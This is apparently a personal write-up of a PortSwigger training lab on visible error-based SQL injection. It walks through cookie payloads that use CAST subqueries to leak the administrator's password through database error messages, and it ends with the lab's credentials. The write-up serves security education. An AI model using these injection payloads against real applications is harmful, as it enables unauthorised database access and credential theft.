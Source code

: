 # Visible error-based SQL injection | May 19, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based), you'll learn: Visible error-based SQL injection! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called `users`, with columns called `username` and `password`. To solve the lab, find a way to leak the password for the `administrator` user, then log in to their account.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201247.png)

**When we go to `/`, it sets a new cookie called `TrackingId`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201315.png)

Now, since tracking ID is very likely to be parsed to a SQL query, we can try to do SQL injection.

**To do so, I'll first try to output an error via an invalid SQL syntax query:**
```sql
wInK1AsJQtbzlaFg'
```

**When we modify that, it outputs a very verbose error:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201602.png)

Misconfiguration of the database sometimes results in verbose error messages. These can provide information that may be useful to an attacker, like the above error:

```sql
SELECT * FROM tracking WHERE id = 'wInK1AsJQtbzlaFg''
```

This shows the full query that the application constructed using our input. As a result, we can see the context that we're injecting into, that is, a single-quoted string inside a `WHERE` statement. This makes it easier to construct a valid query containing a malicious payload. In this case, we can see that commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax:

```sql
wInK1AsJQtbzlaFg' OR 1=1-- -
```

**However, when we send the above payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519201906.png)

It doesn't have any error. More importantly, it doesn't return any data to us.

That being said, we're dealing with a blind-based SQL injection.

Let's leverage **conditional errors** to test a single boolean condition and trigger a database error if the condition is true.

According to [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), we can try MySQL's conditional errors first:

```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')

SELECT IF(1=1,(SELECT table_name FROM information_schema.tables),'a')
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

**Payload:**
```sql
wInK1AsJQtbzlaFg' (SELECT IF(1=1,(SELECT table_name FROM information_schema.tables),'a'))-- -
wInK1AsJQtbzlaFg' (SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a'))-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519202633.png)

Wait a minute... **Why the verbose error message is truncated after `FROM inf`??**

Hmm... Maybe there's some character limits?

Luckly, **we can solve that truncated problem!**

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. This effectively turns an otherwise blind SQL injection vulnerability into a "visible" one.

One way of achieving this is to use the **`CAST()`** function, which enables you to convert one data type to another. For example, consider a query containing the following statement:

```sql
CAST((SELECT example_column FROM example_table) AS int)
```

Often, the data that you're trying to read is a string. Attempting to convert this to an incompatible data type, such as an `int`, may cause an error similar to the following:

```
ERROR: invalid input syntax for type integer: "Example data"
```

Let's do this!

**Since the lab's description says there's a table called `users`, with columns called `username` and `password`, we can try to select `username` column from `users` table.**

**But before we do that, I wanna try the `id` column in `tracking` table first, just to confirm it'll work:**
```sql
' OR CAST((SELECT id) AS int) = 1-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519205645.png)

It worked!

**Let's try again but with table `users`, columns `username` and `password`:**
```sql
' OR CAST((SELECT username FROM users) AS int) = 1-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519205912.png)

Uhh... "more than one row returned by a subquery used as an expression"?

**Don't worry, we can use the `LIMIT` clause to only show 1 record:**
```sql
' OR CAST((SELECT username FROM users LIMIT 1) AS int) = 1-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519205959.png)

**Nice!! How about `administrator`'s password?**
```sql
' OR CAST((SELECT password FROM users LIMIT 1) AS int) = 1-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519210027.png)

Let's go!!

- Administrator credentials: `administrator:113a9wnxvmaq9b3h2uf2`

**We can now login as `administrator` :D**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519210222.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-13/images/Pasted%20image%2020230519210230.png)

I'm `administrator`!

## What we've learned:

1. Blind SQL injection with conditional errors